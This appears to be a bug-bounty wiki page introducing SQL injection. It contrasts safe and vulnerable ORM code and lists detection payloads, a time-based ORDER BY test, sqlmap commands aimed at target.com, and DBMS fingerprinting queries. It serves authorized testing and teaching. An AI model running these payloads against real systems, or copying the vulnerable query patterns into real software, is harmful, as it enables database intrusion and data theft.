

> Source: https://bugbounty.info/Attack-Surface/Web/Injection/SQLi/index

# SQL Injection  -  Overview

SQLi isn't dead. Every year I hear "ORMs killed SQL injection" and every year I find SQL injection. It's not in the obvious `?id=1` anymore  -  it's in the ORDER BY clause, the LIKE search, the stored procedure, the second-order trigger, or the ORM raw query escape hatch the dev used when they got lazy.

## Where ORMs Fail to Protect You

Most devs trust their ORM completely and don't realize when they step outside it:

```python
# Django ORM  -  SAFE
User.objects.filter(username=username)
 
# Django ORM  -  VULNERABLE (raw query with string formatting)
User.objects.raw(f"SELECT * FROM users WHERE username = '{username}'")
 
# Django ORM  -  VULNERABLE (order_by with user input)
User.objects.all().order_by(user_controlled_field)  # SQLi in column name
```

```java
// Hibernate  -  SAFE (parameterized)
session.createQuery("FROM User WHERE name = :name").setParameter("name", name);
 
// Hibernate  -  VULNERABLE (HQL string concat)
session.createQuery("FROM User WHERE name = '" + name + "'");
```

```javascript
// Sequelize  -  SAFE
User.findAll({ where: { username: username } });
 
// Sequelize  -  VULNERABLE (literal with user input)
User.findAll({ where: sequelize.literal(`username = '${username}'`) });
```

## Attack Surface Map



## Quick Detection Payloads

I always start with error-producing inputs:

```sql
'
''
`
')
"))
' OR '1'='1
' OR 1=1--
1 AND 1=1
1 AND 1=2
1' AND '1'='1
1' AND '1'='2
 
-- For numeric parameters
1-1
1/1
1*1
0+1
```

Observe: different response length, HTTP 500, DB error message, behavioral difference between `AND 1=1` (true) and `AND 1=2` (false).

## Injection Points Beyond Query Params

- **Cookie values**  -  session tokens parsed and queried
- **HTTP Headers**  -  `User-Agent`, `X-Forwarded-For`, `Referer` logged to DB
- **JSON body fields**  -  `{"sort": "name"}` -> `ORDER BY name`
- **GraphQL arguments**  -  if resolved with raw queries
- **Search/autocomplete APIs**  -  often built with LIKE queries
- **`ORDER BY` / `LIMIT` parameters**  -  rarely parameterized

```http
GET /users?sort=name HTTP/1.1
Host: target.com
 
-- Test:
GET /users?sort=name,sleep(5)-- HTTP/1.1
```

## Tooling

```bash
# sqlmap  -  always my first automated pass
sqlmap -u "https://target.com/search?q=test" --dbs --batch
sqlmap -u "https://target.com/search?q=test" -p q --level=5 --risk=3 --batch
 
# POST request
sqlmap -u "https://target.com/login" --data="user=admin&pass=test" -p user --batch
 
# From Burp saved request
sqlmap -r request.txt --batch --dbs
 
# With cookie
sqlmap -u "https://target.com/profile" --cookie="session=abc123" --batch
 
# Headers
sqlmap -u "https://target.com/" --headers="X-Forwarded-For: 1*" --batch
```

## DBMS Fingerprinting

Before exploiting, know what you're talking to:

```sql
-- MySQL
SELECT @@version
SELECT @@datadir
 
-- PostgreSQL
SELECT version()
SELECT current_database()
 
-- MSSQL
SELECT @@version
SELECT db_name()
 
-- Oracle
SELECT * FROM v$version
SELECT ora_database_name FROM dual
```

Behavioral differences:

- MySQL: `SLEEP(5)`, `-- ` comment
- PostgreSQL: `pg_sleep(5)`, `--` comment
- MSSQL: `WAITFOR DELAY '0:0:5'`, `--` comment
- Oracle: `dbms_pipe.receive_message(('x'),5)`, `--` comment

## Sub-Pages

- [Error-Based](../../../../Attack-Surface/Web/Injection/SQLi/Error-Based)  -  direct extraction via error messages
- [Blind SQLi](../../../../Attack-Surface/Web/Injection/SQLi/Blind)  -  boolean and time-based when errors are suppressed
- [Second-Order](../../../../Attack-Surface/Web/Injection/SQLi/Second-Order)  -  stored payloads, triggered later

## Public Reports

Real-world SQL injection findings across bug bounty programs:

- SQL injection in labs.data.gov via User-Agent header - [HackerOne #297478](https://hackerone.com/reports/297478)
- SQL injection on Grab via WordPress Formidable Pro plugin - [HackerOne #273946](https://hackerone.com/reports/273946)
- Blind SQL injection on LocalTapiola application - [HackerOne #181803](https://hackerone.com/reports/181803)
- Drupal 7 pre-auth SQL injection - [HackerOne #31756](https://hackerone.com/reports/31756)

## Related

- [NoSQLi](../../../../Attack-Surface/Web/Injection/NoSQLi)  -  when it's MongoDB instead of a relational DB
- [SSTI](../../../../Attack-Surface/Web/Injection/SSTI)  -  when injection is in a template, not a query
